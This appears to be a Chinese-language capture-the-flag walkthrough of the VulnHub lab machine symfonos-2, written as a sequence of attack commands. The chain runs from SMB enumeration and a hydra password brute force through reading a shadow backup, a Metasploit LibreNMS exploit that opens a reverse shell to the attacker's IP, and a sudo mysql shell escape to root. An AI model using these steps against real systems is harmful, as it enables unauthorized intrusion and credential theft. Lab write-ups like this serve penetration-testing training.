# symfonos-2

## 环境

虚拟机平台：VMware Workstation Pro

攻击机：Kali（IP：192.168.253.136）

靶机：symfonos-2（IP：192.168.253.144）

下载：https://www.vulnhub.com/entry/symfonos-2,331/

## Let's go

```
nmap -A 192.168.253.144
```



>**浏览网站没有任何发现，枚举同样如此**

```
enum4linux -a 192.168.253.144
```





> **允许匿名登录，得到 'aeolus' 和 'cronus'**

```
smbclient //192.168.253.144/anonymous
cd backups
get log.txt
```



```
cat log.txt
```





> **查看文件，再次得到用户 'aeolus'**

```
vim user	#将得到用户写入文件
hydra -L user -P password/rockyou.txt  -e ns 192.168.253.144 ftp -f
```



```
#尝试SSH登录竟然成功了
ssh aeolus@192.168.253.144
password:sergioteamo
```



```
#利用上面得到的/var/backups/shadow.bak
cat /var/backups/shadow.bak
```



```
vim hash		#将哈希写入hash
john hash
```



> **放到服务器上并没有跑出来。。。**

```
#因为部分命令受限使用msf登录
search ssh_login
use 0
show options
set rhosts 192.168.253.144
set username aeolus
set password sergioteamo
```



```
run
sessions
sessions -u 1
sessions 2
```



```
netstat
```



```
#进行端口转发
portfwd add -l 4444 -r 127.0.0.1 -p 8080
```



```
http://localhost:4444/login
```



```
search librenms
use 0
show options
set rhosts 127.0.0.1
set rport 4444
set lhost 192.168.253.136
set lport 5555
set username aeolus
set password sergioteamo
run
```



```
python -c 'import pty; pty.spawn("/bin/bash")'
sudo -l
```



```
sudo mysql -e '\! /bin/sh'
```

